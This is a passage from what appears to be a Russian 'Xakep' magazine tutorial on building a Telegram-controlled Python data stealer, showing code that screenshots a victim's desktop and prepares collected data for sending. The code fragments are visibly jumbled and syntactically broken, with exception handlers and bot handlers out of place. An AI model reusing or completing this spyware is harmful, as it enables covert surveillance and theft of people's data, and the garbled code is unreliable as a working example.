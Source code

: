 []

Другие статьи в выпуске: []

Xakep #262. ROPETWO

-   Содержание выпуска
-   Подписка на «Хакер»

 

### Скриншот рабочего стола

```python
os.getcwd()

try: # Перехват ошибки в случае неверно указанного расположения

os.chdir(r"/temp/path")

except OSError:

@bot.message_handler(commands=['start'])

def start_message(message): # Служебная обвязка для бота

bot.send_message(message.chat.id, "[Error]: Location not found!")

bot.stop_polling()

bot.polling()

raise SystemExit

screen = pyautogui.screenshot("screenshot.jpg") # Снятие скриншота
```

Тут все тоже мак­сималь­но прос­то, а за собс­твен­но сня­тие скрин­шота
отве­чает толь­ко пос­ледняя стро­ка кода. Осталь­ное мы исполь­зуем
для кор­рек­тной обра­бот­ки вхо­дящей коман­ды бота.

 

### Запись в файл

Те­перь, ког­да все готово, мы можем прис­тупать к финаль­ному сбо­ру
и отправ­ке дан­ных. Соз­даем готовый файл с нашими дан­ными: если
исполь­зовал­ся мак­сималь­ный сбор информа­ции, а точ­нее весь код
выше, то исполь­зуем такую запись, в про­тив­ном слу­чае уби­рай
ненуж­ные тебе дан­ные:

```python
try: # Обвязка для обработки команд боту

os.chdir(r"/temp/path")

except OSError:

@bot.message_handler(commands=['start'])

def start_message(message):

bot.send_message(message.chat.id, "[Error]: Location not found!")

bot.stop_polling()

bot.polling()

raise SystemExit
```